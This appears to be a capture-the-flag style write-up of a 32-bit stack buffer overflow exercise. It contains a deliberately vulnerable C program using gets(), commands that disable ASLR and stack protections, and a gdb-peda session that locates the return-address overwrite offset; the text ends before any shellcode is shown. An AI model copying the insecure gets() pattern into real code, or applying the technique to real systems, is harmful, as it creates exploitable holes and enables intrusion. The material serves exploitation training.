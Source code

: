 
#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + without nx-bit + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o 5 5.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

1. Silently (-q) start with gdb.
2. Disassemble the main function.

```nasm
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804841d <+0>:	push   ebp
   0x0804841e <+1>:	mov    ebp,esp
   0x08048420 <+3>:	and    esp,0xfffffff0
   0x08048423 <+6>:	sub    esp,0x50
   0x08048426 <+9>:	lea    eax,[esp+0x10]
   0x0804842a <+13>:	mov    DWORD PTR [esp],eax
   0x0804842d <+16>:	call   0x80482f0 <gets@plt>
   0x08048432 <+21>:	leave  
   0x08048433 <+22>:	ret    
End of assembler dump. 
```
 
This challenge seems to be similar to stack-4, only difference is we need to execute our shellcode. Offset is also same...


Let's set a breakpoint on **0x08048432**, one instruction before return of the main().

```nasm
gdb-peda$ b * 0x08048432
Breakpoint 1 at 0x8048432: file 5.c, line 11.

gdb-peda$ r 

gdb-peda$ ni
...TRIM...
EAX: 0xffffd0e0 ('A' <repeats 76 times>, "BBBBCCCCDDDD")
...
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd130 ("CCCCDDDD")
EIP: 0x42424242 ('BBBB')
```